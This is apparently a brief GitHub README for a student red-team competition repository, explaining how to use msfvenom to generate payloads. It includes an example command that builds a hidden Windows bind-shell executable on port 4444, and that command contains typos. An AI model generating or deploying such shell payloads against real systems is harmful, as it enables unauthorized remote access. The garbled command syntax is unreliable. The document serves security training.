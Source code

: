 # 473-redteam-tool
msfvenom is the tool I am using for the redteam competiton and currently included in this repo are a few basic scripts I've generated with it.

msfvenom git repo: https://github.com/rapid7/metasploit-framework

How to Use msfvenom
1. Search for a type of payload you want to generate
2. Generate a payload, using the command "msfvenom -p PAYLOAD_NAME -f FORMAT"

Example Scenario
1. Search for a bind_tcp payload. Select windows/shell_hidden_bind_tcp
2. Generate the payload, using the command "msfvenom -p windows/shell_hidden_bind_tcp ahost=HOST_IP lport=4444 if exe | tee hiddentcp.exe
